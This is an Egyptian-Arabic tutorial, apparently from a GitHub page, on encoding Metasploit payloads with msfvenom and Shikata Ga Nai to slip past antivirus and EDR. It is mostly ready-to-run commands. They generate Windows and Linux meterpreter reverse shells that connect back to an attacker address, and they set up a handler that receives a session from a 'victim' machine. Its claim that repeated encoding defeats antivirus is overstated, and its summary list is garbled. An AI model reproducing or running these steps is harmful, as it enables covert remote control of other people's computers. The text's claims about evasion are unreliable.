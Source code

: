 
# **📌 يعني إيه Encoding؟**

✅ التشفير (Encoding) هو عملية **تعديل البيانات بحيث تفضل شغالة لكن تبقى غير قابلة للاكتشاف بسهولة**.  
✅ لما تعمل **Payload باستخدام MSFVenom**، برامج الحماية (Antivirus و EDR) ممكن تكتشفه، فبنستخدم **Encoders** عشان نخفيه.  
✅ التشفير **مش نفس التشفير الأمني (Encryption)**، هو بس بيغير شكل البيانات بدون حماية فعلية، لكن الهدف هنا هو **تجنب اكتشافه**.

---

# **🔥 ليه بنستخدم Encoding؟**

❌ برامج الحماية عندها قواعد (Signatures) بتتعرف بيها على الـ Payloads المشهورة.  
❌ لو حاولت تستخدم **Payload عادي من غير تشفير**، هيتكشف بسهولة.  
✅ الحل هو **استخدام Encoder** عشان نغير البصمة الرقمية بتاعت الـ Payload.

---

# **🛠️ أشهر Encoders في Metasploit**

💻 لو عايز تشوف كل الـ Encoders المتاحة في Metasploit:

```bash
msfvenom -l encoders
```

⬅️ هيظهرلك **قائمة بالـ Encoders** اللي ممكن تستخدمها.

### **🔹 1. أشهر Encoder: Shikata Ga Nai**

✅ هو أشهر Encoder، بيستخدم طريقة **XOR-based encryption** عشان يغير شكل الـ Payload.  
✅ لما تستخدمه، **كل مرة بيطلع لك شكل مختلف للـ Payload**، وده بيقلل احتمالية اكتشافه.  
✅ ينفع مع **أنظمة الويندوز واللينكس**.

---

# **💡 إزاي نستخدم Encoding مع MSFVenom؟**

## **🟢 1. توليد Payload عادي (بدون تشفير)**

لو عايز تولد **Reverse Shell عادي للويندوز بدون تشفير**:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > payload.exe
```

⬅️ لو شغلته على جهاز فيه **Antivirus قوي**، هيتم اكتشافه فورًا! 🚨

---

## **🟢 2. توليد Payload مشفر باستخدام Shikata Ga Nai**

لو عايز **تخفي الـ Payload عن برامج الحماية**، استخدم الـ Encoder كالتالي:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe > encoded.exe
```

✅ **-e x86/shikata_ga_nai** →  shikata_ga_nai.   اسمه Encoder استخدم
✅ **-i 10** → عيد التشفير 10 مرات عشان تزود التمويه.  
✅ **-f exe** → حفظه كملف تنفيذي للويندوز.

🎯 **كل مرة تشغل الأمر ده، هيطلع لك Payload مختلف، صعب على برامج الحماية اكتشافه!** 🔥

---

## **🟢 3. توليد Payload مشفر لنظام لينكس**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f elf > encoded.elf
```

✅ نفس الطريقة لكن هنا الـ Payload متوافق مع **لينكس** وحفظناه بصيغة **ELF**.

---

# **🔐 التحقق من تشفير الـ Payload**

بعد ما تولد الـ Payload المشفر، تقدر **تتأكد إنه مختلف عن الأصلي** باستخدام أداة `msfvenom` نفسها:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -f raw | msfvenom -e x86/shikata_ga_nai -i 5 -f raw | hexdump -C | less
```

✅ ده بيعرض **التغييرات اللي حصلت في الـ Payload بعد التشفير**.

---

# **💡 الخلاصة بالمصري:**
2️⃣ **أشهر Encoder هو `shikata_ga_nai`، بيستخدم XOR عشان يغير شكل الـ Payload كل مرة.**  
3️⃣ **كل ما زودت عدد التكرارات (`-i`)، كل ما بقى أصعب على برامج الحماية تكتشفه.**  
4️⃣ **لو شغلت الـ Payload المشفر، هيشتغل بنفس الوظيفة لكنه هيكون أصعب في الاكتشاف.**

---

# **🛠️ خطوات عملية لتشفير الـ Payload واستخدامه في Metasploit**

✅ **1. توليد Payload مشفر:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe > bypass.exe
```

✅ **2. إعداد Metasploit لاستقبال الاتصال:**

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

🎯 **بمجرد تشغيل الـ Payload المشفر على جهاز الضحية، هتوصلك جلسة Meterpreter من غير ما الـ Antivirus يكتشفها!** 🔥